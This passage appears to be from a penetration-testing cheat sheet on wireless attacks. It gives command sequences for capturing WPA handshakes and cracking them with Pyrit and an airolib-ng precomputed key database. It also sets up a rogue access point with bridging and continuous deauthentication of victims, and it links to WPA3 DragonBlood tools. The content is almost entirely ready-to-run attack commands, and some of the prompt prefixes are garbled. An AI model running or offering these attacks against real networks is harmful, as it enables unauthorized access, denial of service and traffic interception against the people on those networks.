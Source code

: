 ### <mark style="color:orange;">Crack with Pyrit</mark>

```
rootairmon-ng start wlan0
rooairodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
rootaireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
ropyrit -r<PCAP_of_FileName> -b <BSSID> -i <Wordlist> attack_passthrough
ropyrit -i <Wordlist> import_passwords
ropyrit -e <ESSID> create_essid
rootpyrit batch
rootpyrit -r <PCAP_of_FileName> attack_db
```

### <mark style="color:orange;">Precomputed WPA Keys Database Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
kwrite ESSID.txt
airolib-ng NEW_DB --import essid ESSID.txt
airolib-ng NEW_DB --import passwd <DictionaryFile>
airolib-ng NEW_DB --clean all
airolib-ng NEW_DB --stats
airolib-ng NEW_DB --batch
airolib-ng NEW_DB --verify all
aircrack-ng -r NEW_DB <Handshaked_PCAP>
```

## <mark style="color:red;">WPA3 Attacks</mark>

### <mark style="color:orange;">DragonBlood Attack</mark>

{% embed url="https://wpa3.mathyvanhoef.com" %}

{% embed url="https://github.com/vanhoefm/dragonslayer" %}

{% embed url="https://github.com/vanhoefm/dragondrain-and-time" %}

{% embed url="https://github.com/vanhoefm/dragondrain-and-time" %}

## <mark style="color:red;">Rogue AP</mark>

```
airmon-ng start wlan0
airbase-ng -e “<FakeBSSID>” wlan0mon
brctl addbr <VariableName>
brctl addif <VariableName> wlan0mon
brctl addif <VariableName> at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig <VariableName> up
aireplay-ng -deauth 0 -a <victimBSSID> wlan0mon
dhclient3 <VariableName> &
wireshark &
;select <VariableName> interface
```

